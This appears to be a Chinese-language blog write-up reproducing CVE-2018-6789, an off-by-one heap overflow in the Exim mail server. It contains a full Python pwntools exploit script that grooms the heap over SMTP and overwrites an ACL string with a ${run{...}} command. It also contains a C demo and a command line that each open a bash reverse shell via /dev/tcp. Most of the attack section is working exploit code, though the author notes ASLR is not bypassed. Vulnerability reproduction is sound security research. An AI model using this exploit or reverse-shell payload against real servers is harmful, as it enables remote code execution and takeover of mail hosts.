






<!-- more -->

### 分析环境


系统环境：Linux kali 4.13.0-kali1-amd64 #1 SMP Debian 4.13.13-1kali1 (2017-11-17) x86_64 GNU/Linux

编译环境：ldd (Debian GLIBC 2.25-3) 2.25

分析版本：

```
$ git clone https://github.com/Exim/exim.git
$ git checkout ef9da2ee969c27824fcd5aed6a59ac4cd217587b
```

调试时下的断点：

```
b check_helo
b b64decode
b base64.c:214
b smtp_in.c:4746
b smtp_in.c:4993
b expand_string_internal at expand.c:5006 
b child_open_uid at child.c:395 
```

### 漏洞分析

关于漏洞的分析见参考文章，里面写的很详细了，本文主要是对复现过程进行记录。

由于编写的exp无法弹回shell，所以对命令执行的地方进行了跟踪：











路径为：acl_check->acl_check_internal->expand_string->child_open->execv

最后会fork一个子进程来执行execv，类似下面的demo：

```
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

int main()
{
    char *argv[10] = {0};
    argv[0] = "/bin/bash";
    argv[1] = "-c";
    argv[2] = "/bin/bash -i &> /dev/tcp/127.0.0.1/1234 0>&1";
    execv(argv[0],argv);
    return 0;
}

```

### exp 代码

```
from pwn import *
import time

def EHLO(r,hostname):  
    time.sleep(1)
    r.sendline("EHLO "+hostname)
    r.recvline()

def Sendline(r,info):
    time.sleep(1)
    r.sendline(info)
    r.recvline()

def AUTH(r,info):
    time.sleep(1)
    r.sendline("AUTH CRAM-MD5")
    r.recvline()
    time.sleep(1)
    r.sendline(info)
    r.recvline()

if __name__=='__main__':
    r = remote('localhost',25)
    command = "/bin/bash -c '/bin/bash -i &> /dev/tcp/127.0.0.1/1234 0>&1'"
   
#Step 1：进行内存布局

    Sendline(r,'\x7f'*4102) 
    #通过unrecognized command来获取一个0x4041的堆块

    EHLO(r,'c'*0x2010) 
    #通过sender_host_name 申请一个0x2021的堆块，同时释放上面0x4041的堆块

#Step 2：将位于底部的0x2021的堆块移到中间

    Sendline(r,'\x7f'*0x800) 
    #通过unrecognized command占用顶部0x2020的chunk

    EHLO(r,'c'*(0x2000-9)) 
    #使用EHLO释放之前的sender_host_name，然后重新设置，让sender_host_name位于0x6060大小chunk的中部

#Step 3：触发off by one漏洞

    payload1 = "HfHf"*0xaae

    AUTH(r,payload1[:-1]) 
    #将中间chunk的size由0x2021变成0x20f1

#Step 4:构造在第三块chunk中构造一个fake chunk

    payload = p64(0x1f31)+p64(0x20f0)
    payload1 = base64.b64encode(payload*484).replace("\n","")
    AUTH(r,payload1) 
    #绕过free检查，表明中间chunk的size是正确的

#Step 5:通过释放sender_host_name，把一个原本0x2000的chunk扩展成0x20f0, 但是却不触发smtp_reset

    time.sleep(1)
    EHLO(r,'a+')

#Step 6: 修改storeblock的next指针为储存acl_check_rcpt字符串的堆块地址（我的环境只有rcpt和data命令可用）

    time.sleep(1)
    payload = 'd'*(0x2000-0x20)
    address = 0x5582f18dd9a0 
    #包含acl_check_rcpt字符串的堆起始地址+0x10

    payload = base64.b64encode(payload+p64(0x2021)+p64(0x2021)+p64(address)+p64(0x2000)+p64(0x2000))
    #next指针后还要对chunk的size赋值，不然之后在free的时候会检查size大小，导致失败

    AUTH(r,payload)

#Step 7: 调用smtp_reset ->储存acl_check_rcpt字符串的堆块被释放丢入unsorted_bin

    EHLO(r,"crashed")

    time.sleep(1)

#Step 8:重新申请0x2020的堆块来覆盖acl_check_rcpt为要执行的命令（我的环境还多了一个0x2020的unsorted_bin，所以申请了两次，在第二次进行覆盖）

    payload = 'e'*0x2000 
    payload = base64.b64encode(payload)
    AUTH(r,payload)

    time.sleep(1)
    payload = 'f'*300+'\x20'+'f'*27 
    #对AUTH有空格判断，如果有空格就变成'0x00'，只会进行一次判断，所以在命令前还要加个空格，不然命令里的空格会被变成'0x00'导致失败。

    command = "${run{" + command + "}}\x00"
    payload += command
    payload += 'f'*(175-len(command)) + "/root/bin-tree/exim/var/spool/exim/log/%slog\x00" 
    #由于第一次覆盖把日志文件的名字覆盖了，又重新写入

    payload += 'f'*(0x2000-len(payload))
    payload = base64.b64encode(payload)
    AUTH(r,payload)

#Step9: 触发acl_check_rcpt检查

    time.sleep(1)

    Sendline(r,"mail from: <pluskid@zju.edu.cn>")

    time.sleep(1)

    Sendline(r,"RCPT TO: <pluskid@mstczju.org>")

    r.interactive()

```

不知道是不是我环境的原因，感觉比网上的文章描述的多了好多坑。。。

### 攻击效果



最后攻击效果虽然在进程里起了bash，但是并没有弹回来shell，应该和我本地的环境有关，touch命令倒是执行成功了，调试发现，起了bash后，exim进程又把它kill了，很奇怪。

该exp也没有对随机化进行绕过，网上公开的资料都是对地址进行爆破。

### 参考链接

https://paper.seebug.org/469/

https://devco.re/blog/2018/03/06/exim-off-by-one-RCE-exploiting-CVE-2018-6789-en/

https://github.com/skysider/VulnPOC/blob/master/CVE-2018-6789/exp.py

